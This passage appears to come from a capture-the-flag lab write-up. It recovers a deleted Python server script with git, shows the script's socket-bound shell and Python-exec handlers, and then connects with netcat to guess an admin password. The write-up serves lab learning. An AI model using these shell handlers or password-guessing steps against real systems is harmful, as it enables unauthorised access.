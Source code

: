 We can recover deleted files with this git command: 
```bash
think@ip-10-10-74-250:/opt/dev$ git restore pyrat.py.old
think@ip-10-10-74-250:/opt/dev$ ls -al
total 16
drwxrwxr-x 3 think think 4096 Jul 21 10:51 .
drwxr-xr-x 3 root  root  4096 Jun 21  2023 ..
drwxrwxr-x 8 think think 4096 Jul 21 10:51 .git
-rw-rw-r-- 1 think think  753 Jul 21 10:51 pyrat.py.old
think@ip-10-10-74-250:/opt/dev$ cat pyrat.py.old 
...............................................

def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if is not aprooved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
        else:
            exec_python(client_socket, data)

def shell(client_socket):
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn("/bin/sh")
    except Exception as e:
        send_data(client_socket, e

...............................................
```
This script functions as a switch-case controller based on the value of data. If the command is `some_endpoint`, it calls the `get_this_enpoint()` function, which—based on the code comments—corresponds to an admin endpoint and likely provides privileged access.

If the data doesn't match `some_endpoint`, the script checks whether it is running as the root user by evaluating `os.getuid() == 0`. If it is, it downgrades privileges by calling `change_uid()`.

After this check, if data is `shell`, it spawns a shell using the `shell()` function. Otherwise, it calls `exec_python()` to execute the received input as Python code. 

Since the older version of this server script includes internal logic and comments, we don’t need to guess the username—it's explicitly indicated in the code that 'some_endpoint' refers to the `admin`.

```bash                                                                        
                                                                              
┌──(kali㉿kali)-[~]
└─$ nc 10.10.74.250 8000
admin
Password:
1234
Password:
password
Password:
admin


admin
```